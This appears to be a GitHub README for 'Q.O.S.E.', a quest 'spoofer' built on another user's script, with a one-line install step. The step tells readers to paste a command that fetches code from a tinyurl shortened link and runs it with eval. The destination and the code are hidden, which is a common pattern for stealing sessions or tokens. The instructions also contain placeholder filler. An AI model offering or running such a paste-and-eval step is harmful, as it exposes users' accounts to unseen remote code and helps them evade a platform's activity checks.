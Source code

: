 <p align="center"><img src="https://github.com/LazyDevv/Qose/blob/4e90f07b6533576ee30834e1ed7c3a0c6c3a46fe/quest.png" alt="activate"></p>

<h1 align="center">Quest Optimization Script Execution (Q.O.S.E.)</h1>

<p align="center">A spoofer based on @aamiaa's work, with a focus on streamlining the process for normies.</p>
<hr>

## Download / How to use it?

-   sadsad
-   Copy-paste the below code and press enter
    ```
    fetch('https://tinyurl.com/SpoofQuest').then(r => r.text()).then(eval);

    ```
-   sadasdsa
-   That's all.
---
[@aamiaa's work and original script.](https://gist.github.com/aamiaa/204cd9d42013ded9faf646fae7f89fbb)

---
<p align="center"> Made with <br>
    <img height="250" src="https://raw.githubusercontent.com/LazyDevv/Hilao/master/ctrlcctrlv.png" alt="ctrlcctrlv"></p>
